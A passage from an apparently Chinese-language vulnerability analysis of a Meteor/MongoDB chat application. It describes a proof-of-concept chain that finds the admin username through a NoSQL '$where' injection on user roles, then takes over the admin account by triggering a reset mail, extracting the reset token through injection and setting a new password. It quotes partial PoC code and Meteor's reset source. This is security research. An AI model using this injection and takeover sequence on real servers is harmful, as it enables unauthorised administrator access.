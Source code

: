 在这个函数中直接默认了管理员账号的 username 为 “admin”，但是经过测试，并不是所有可攻击的目标都以 “admin” 作为 username，那么就需要一种方法来获取管理员账号的 username。观察 mongodb 中存储的用户数据：

```
`{`
    "_id" : "x", 
    ...
    "services" : `{` 
        "password" : `{` 
            ...
        `}`, 
        ...,
        "emails" : [ `{` 
            "address" : "x@x.com", 
            "verified" : true
        `}` ], 
        "roles" : [ "admin" ], 
        "name" : "username",
        ...
`}`
```

每一个用户字段中都有一条``{`"roles":[""]`}``，通过``{`"$where":"this.roles.indexOf('admin')&gt;=0"`}``来查询管理员账号的信息，随后便可获取管理员的 username。

第三步是修改管理员账号的密码，以获得 admin 的权限。

```
## Sending Reset mail
print(f"[+] Resetting `{`adminmail`}` password")
forgotpassword(adminmail,target)

## Getting admin reset token through nosql injection authenticated
token = admin_token(target,lowprivmail)

## Resetting Password
code = oathtool.generate_otp(secret)
changingadminpassword(target,token,code)
```

其中 forgotpassword() 这一步不可缺少，因为每次通过 reset token 来修改密码以后，后台会自动删除该 token。在本地测试的时候，因为没有 forgotpassword() 这一步，所以每次执行过 changingadminpassword() 以后，都会因为缺少 reset token 导致下一次 PoC 执行失败。通过断点调试找到了问题所在。

在`.meteor/local/build/programs/server/packages/accounts-password.js line 1016`

```
resetPassword: function () `{`
    // ...
    try `{`
        // Update the user record by:
        // - Changing the password to the new one
        // - Forgetting about the reset token that was just used
        // - Verifying their email, since they got the password reset via email.
        const affectedRecords = Meteor.users.update(`{`
            'services.password.reset.token': token
        `}`, `{`
            $unset: `{`
                'services.password.reset': 1,
            `}`
        `}`);
    `}`
`}`
```
